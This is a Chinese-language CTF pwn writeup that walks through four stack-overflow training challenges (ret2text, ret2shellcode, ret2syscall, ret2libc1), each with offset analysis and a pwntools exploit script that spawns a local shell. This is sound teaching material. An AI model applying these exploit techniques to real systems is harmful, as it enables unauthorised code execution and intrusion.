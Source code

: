 # CTF 赛题 Writeup

git链接

## ret2text

1.checksec检查文件相关信息

![image-20230419190601322](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230419190601322.png)

包括：i386、32位、小端存储、数据段不可执行等

2.IDA分析

main函数，存在gets语句，有溢出可能性

![image-20230419192050437](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230419192050437.png)

secure函数，存在system(/bin/sh)，地址为0x0804863A

![image-20230419192430519](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230419192430519.png)

3.确认溢出范围

目的是找到数组s起始位置与saved eip之间的距离

使用pwngdb进行调试，在main函数call gets处下断点，运行后查看EAX与EBP的值

EAX代表数组s的初始地址，EBP代表saved ebp的地址

差值 0xffffcdc8 - 0xffffcd40 = 0x6c

s 相对于返回地址(saved eip)的偏移为 0x6c+4

![image-20230420155031762](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230420155031762.png)

4.构造payload

PS：网络上最常见的payload没有decode，在python2.7中可以轻松跑过。但在python3中对字符串相加增加了要求，以至于会报类型不匹配的错误（“must be str, not bytes”），因此需要用decode将bytes转为str

```python
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline('A' * (0x6c+4) + p32(target).decode("iso-8859-1"))
sh.interactive()
```

5.实验结果

![image-20230420161210446](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230420161210446.png)

## ret2shellcode

1.checksec检查文件相关信息

关键点：**没有开启NX**

![image-20230420161741130](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230420161741130.png)

2.IDA分析

main函数，存在gets，并将数组s复制给buf2

![image-20230420163041507](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230420163041507.png)

buf2在bss段，经过测试发现具有执行权限

![image-20230420163801975](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230420163801975.png)

- buf2地址：0x0804A080
- gets命令地址：0x08048593

3.确认溢出范围

和ret2text一样，找s到返回地址的距离

offset = ebp - eax + 4 =  0xffffd058 - 0xffffcfec + 4 = 6c + 4 = 0x70

![image-20230420164252479](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230420164252479.png)

4.构造payload

```python
from pwn import *

buf2_addr = 0x0804A080
offset = 0x70

payload = asm(shellcraft.sh())
payload = payload.ljust(offset, b'a')
payload += p32(buf2_addr)

sh = process('./ret2shellcode')
sh.sendline(payload)
sh.interactive()
```

5.实验结果

![image-20230420165548176](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230420165548176.png)

## ret2syscall

1.checksec检查文件相关信息

![image-20230421201108648](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230421201108648.png)

由于开启了NX保护，所以shellcode的方法用不了

2.IDA分析

![image-20230421201854832](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230421201854832.png)

- 提示说这次没有system调用也没有shellcode，所以只能另想办法。
- 由于存在gets，所以栈溢出是可行的

3.确认溢出范围

![image-20230421202417518](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230421202417518.png)

用同样的方法先找变量v4到返回地址的偏移：0xffffd218 - 0xffffd1ac + 4 = 0x70

4.系统调用

需要把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么在执行int 0x80时就可执行对应的系统调用

```bash
execve("/bin/sh",NULL,NULL)
```

其中，该程序是 32 位，所以需要满足以下条件

- 系统调用号，即 eax 为 0xb
- 第一个参数，即 ebx 指向 /bin/sh 的地址
- 第二个参数，即 ecx 为 0
- 第三个参数，即 edx 为 0

接下来就需要想办法将四个寄存器设置为对应值，这里需要使用 gadgets

eax：选择第二个作为gadgets，地址为0x080bb196

![image-20230425163847873](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230425163847873.png)

ebx、ecx、edx：发现一个gadgets，同时涉及三个寄存器，地址为0x0806eb90

![image-20230425164546961](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230425164546961.png)

 /bin/sh 字符串对应的地址：0x080be408

![image-20230425165357327](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230425165357327.png)

int 0x80对应地址：0x08049421

![image-20230425165513034](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230425165513034.png)

5.构造payload

```python
from pwn import *

sh = process('./ret2syscall')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x080be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

6.实验结果

![image-20230425170022925](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230425170022925.png)

## ret2libc1

1.checksec检查文件相关信息

![image-20230425184251458](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230425184251458.png)

2.IDA分析

main:gets命令——存在栈溢出问题，并且提示ret2libc方法

![image-20230425184411067](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230425184411067.png)

3.确认溢出范围

用同样的方法先找变量s到返回地址的偏移：0xffffd208 - 0xffffd19c + 4 =  0x70 = 112

![image-20230425184658393](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230425184658393.png)

4.查看libc的可行性

字符串/bin/sh的地址为0x08048720

![image-20230425185001793](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230425185001793.png)

system的plt地址为0x08048460

![image-20230425190136036](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230425190136036.png)

5.构造payload

```python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

6.实验结果

![image-20230425190623553](C:\Users\51793\AppData\Roaming\Typora\typora-user-images\image-20230425190623553.png)